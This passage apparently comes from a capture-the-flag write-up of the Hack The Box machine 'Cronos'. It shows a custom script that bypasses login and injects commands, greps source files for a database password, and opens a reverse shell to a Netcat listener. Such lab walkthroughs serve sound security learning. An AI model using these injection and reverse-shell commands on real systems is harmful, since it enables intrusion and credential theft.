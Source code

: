 **Note**: I tried the script in a fresh machine and it worked fine. Remember to update /etc/hosts :).

We can execute commands using the `-m c --command <command>` flags.

```bash
python3 cronos.py -t 10.129.227.211 -m c --command "whoami" 

[+] Bypassed the authentication

[+] Command injected: whoami

[+] Output:

www-data
```

Found a database password in the source files.

```bash
python3 cronos.py -t 10.129.227.211 -m c --command "cat * | grep -i pass"

[+] Bypassed the authentication

[+] Command injected: cat * | grep -i pass

[+] Output:

define('DB_PASSWORD', '<REDACTED>');
$db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
// username and password sent from form
$mypassword = md5($_POST['password']);
...
```

Started a Netcat listener `nc -nlvp 4444` and sent a reverse shell using the `-m r` mode.

```bash
python3 cronos.py -t 10.129.227.211 -m r --lhost 10.10.14.42

[+] Bypassed the authentication

[+] Check your Netcat listener :D
```

Received a reverse connection and transformed the shell into a pseudo-interactive TTY with Python.

```bash
www-data@cronos:/var/www/admin$ whoami
www-data

www-data@cronos:/var/www/admin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# PrivEsc
